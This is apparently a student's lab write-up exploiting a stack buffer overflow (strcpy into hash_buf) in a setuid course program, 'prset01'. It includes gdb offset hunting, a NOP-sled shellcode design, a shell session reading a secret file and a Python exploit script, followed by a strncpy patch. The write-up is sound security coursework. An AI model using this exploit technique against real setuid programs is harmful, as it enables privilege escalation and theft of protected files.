 

###################  FIGURING OUT THE PROGRAM FUNCTION

I first took a look at the source and identified a vulnerability of using known vulnerable function “strcpy” used on buffer hash_buf inside the function process_verify();  however this function is also calling process_hash(); so I made sure I understand what those functions are doing exactly and what are they are doing.  After several testing I got the idea about the program and it’s expected so arguments. 



###################  VULNERABILITY 

So within gdb: 

(gdb) r verify Makefile AAAA
Starting program: /usr/local/bin/prset01 verify Makefile AAAA

(gdb) p &hash_buf
$1 = (uint8_t (*)[128]) 0x7fffffffe980
(gdb) i f
…..
rbp at 0x7fffffffea60, rip at 0x7fffffffea68

(gdb) p/x 0x7fffffffea68 - 0x7fffffffe980
$2 = 0xe8
(gdb) 

(gdb) r verify Makefile "$(python2 -c 'print "\x90" * 0xe8 + "AAAA"')"
Starting program: /usr/local/bin/prset01 verify Makefile "$(python2 -c 'print "\x90" * 0xe8 + "AAAA"')"

Breakpoint 1, process_verify (path=0x7fffffffed3f "Makefile", hash=0x7fffffffed48 '\220' <repeats 200 times>...) at prset01.c:128
128	    size_t computed_hash_len = 0u;
(gdb) c
Continuing.
ERROR: invalid hash byte (??)

Program received signal SIGSEGV, Segmentation fault.
0x0000000041414141 in ?? ()

This way we know that after the buffer gets injected with data of size 0xe8 bytes, then the return address would be overwrite with the following inputs we give to the buffer. and I confirmed that by giving AAAA > which is “41414141”. 



###################  DESIGN EXPLOIT 

So to make our attack we need to do the following: 

Send 
	(\xcc) or (\x90) of a size of  (0xe8 - payload length)  +  (the shell code payload) + an address somewhere direct us before the shell code is loaded.  So, first we can know exact addresses by running in gdb first.


At the first It took me very long time to get the Stack-overflow example working in gdb, but directly running the program required a slight change in the return_address. because the address of the buffer would not be the same as what I found in gdb. So, with several trial and errors. I realize that the payload that I used for main did not work perfectly inside prset01 program. So I tried several others but still not got any good results.  at the end I start playing with the first instruction which is subtracting from the Stack pointer. First I tried add another instruction of that. 

And It worked however I ran into another issue.


I realized that because of there is a return 1,  the 0x00000001 gets injected on one of the payload data. 
So I did that by changing the structure of my lunched attack to 


(\xcc) or (\x90) * (0xe8 - payload length - 50)  +  (the shell code payload) +  (\x90) * 50 + ret_address

This way I ensure the shelled did not get changed by 0x00000001


But still the shelled did not run,  
after another add of subtraction of stack pointer. the payload seems to work now and I was able to get in.

here is the first lines of the payload, the original I used from the professor example but I made duplicate lines of first instruction. 
I also found this by analysing the payload running by gdb>Layout asm , Layout Reg and Found that RSP is pointing to the shellcode loaded instructions, maybe it's because the -50 shifting I made when I load it in memory. I guess that's the closest justification.

sub rsp, byte 0x70
sub rsp, byte 0x70
sub rsp, byte 0x70



###################  ATTACKING /usr/local/bin/prset01

So Just after I got the /usr/local/bin/prset01 exploited, I was able to find the secret value 

spatialisotope@prset01:~/stack-overflow$ ./prset01 verify Makefile  "$(python2 zexploit.py)"
0x7fffffffe8a0ERROR: invalid hash byte (??)
$ exit
spatialisotope@prset01:~/stack-overflow$ /usr/local/bin/prset01 verify Makefile  "$(python2 zexploit.py)"
ERROR: invalid hash byte (??)
$ whoami
whoami: cannot find name for user ID 1001
$ id
uid=1000(spatialisotope) gid=1000(spatialisotope) euid=1001 groups=1000(spatialisotope)
$ cat /usr/local/share/prset01.secret
gfZx58Kn02e/vqUC1UVL7rhq5STttysW0QqHLz1c04U=
$ 



I also try to craft a more advanced payload that prints out this value directly, but I did not complete it.
I was trying to make execve("/bin/cat", {"cat", "/usr/local/share/prseto1.secert"}, NULL) but I kept getting Segmentation Fault I am sure It's about making the second argument array. I kinda know the structure of the second argument should be like 3 pointers, one pointer points to "cat", another points to ""/usr/local/share/prseto1.secert" and last a pointer to NULL. and I just didn't have much time I loved the feeling of finishing this challenge I spend a looooots of time doing this and looking for sure to get this assembly code finished someday.  


###################  PATCH

My patch is:

// strcpy(hash_buf, hash);
strncpy(hash_buf, hash, computed_hash_len * 2);

strcpy is vulnerable because it’s just copies without looking into any boundaries of the buffer. So, I put strcncpy because it copies just the specific number of bytes.  I found that after looking to process_hash is it actually produces computed_hash_len of 32 but the program is converting those integers to chars and inside a loop taking two of its and put them in one buffer char element.
hash_buf[i] =
            (digittoint(hash_buf[2*i]) << 4)
            | digittoint(hash_buf[2*i+1]);

so I figured it if computed_hash_len=32, then the actual but should have 64 bytes length, and that’s what I see from the output too. 


TEST
spatialisotope@prset01:~/prset01$ ./prset01 verify Makefile  "$(python2 zexploit.py)"
ERROR: invalid hash byte (??)
spatialisotope@prset01:~/prset01$ ./prset01 hash Makefile                          
98a75b72fdd72c3ad0d8a94ed0e631366be0bf7a78bbfbc2f13afbabf51dbd1c  Makefile
spatialisotope@prset01:~/prset01$ ./prset01 verify Makefile 98a75b72fdd72c3ad0d8a94ed0e631366be0bf7a78bbfbc2f13afbabf51dbd1c
OK
spatialisotope@prset01:~/prset01$ 




################# EXPLOIT SCRIPT

#! /usr/bin/env python2

import sys, struct

buf_len = 0xe8
ret_addr = 0x7fffffffe840
payload = open('payload.bin').read()
buf = ('\x90' * (buf_len-len(payload) - 50)) +  payload + ('\x90' * 50) + struct.pack('<Q', ret_addr)
sys.stdout.write(buf)


